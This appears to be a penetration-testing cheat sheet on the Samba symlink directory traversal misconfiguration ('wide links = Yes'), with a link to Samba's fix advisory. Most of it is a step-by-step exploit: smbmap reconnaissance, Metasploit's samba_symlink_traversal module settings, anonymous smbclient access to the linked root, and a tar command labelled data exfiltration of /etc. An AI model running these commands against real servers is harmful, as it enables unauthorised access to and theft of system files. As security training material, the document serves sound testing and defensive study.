

Samba Symlink Directory Traversal (configuration issue)
Prerequisites:
• Samba server contains a writeable share folder
root@kali:/# smbmap -H [ipAddress]
• In
/etc/samba/smb.conf we have the parameter
wide links = Yes.
We can not check it if
we have not full access to the machine
target@host:/$ testparm -s | grep "wide links"
The vulnerability “Samba Symlink Directory Traversal”, is a Samba misconfiguration in its
settings that essentially allows an attacker to create a
symbolic link to
the root (/) partition from a writeable share.
This will allow the attacker a read access to the
entire file system outside of the share directory.
To know more about this issue and
how to resolve it go to:
https://www.samba.org/samba/news/symlink_attack.htmlExploitThis
vulnerability can be exploited using a modified version of the
smbclient(
see here how to do it) or in
alternative:
•
Metasploit module:
https://www.rapid7.com/db/modules/auxiliary/admin/smb/samba_symlink_traversal
msf> use auxiliary/admin/smb/samba_symlink_traversal
msf> show options
msf> set RHOST <targetIp>
msf> set SMBSHARE <writableTargetFolder> #check the prerequisites
msf> set SMBTARGET rootfs #new rootfs folder inside <writableTargetFolder> that is linked to /
msf> exploit
Access to the access the <writableTargetFolder> share. Inside it we should have a “rootfs”
directory(SMBTARGET)
root@kali:/# smbclient \\\\192.168.13.29\\<writableTargetFolder> -N #anonymous access
smb: \> cd rootfs #created folder by us
smb: \> get [file] #to download a file locally
data exfiltration of all files within a directory
example:
create a tar archive of the /etc/ directory on the target system to our local systems’ /tmp directory.
smb: \> cd rootfs\etc
smb: \> tar c ../tmp/all_files.tar *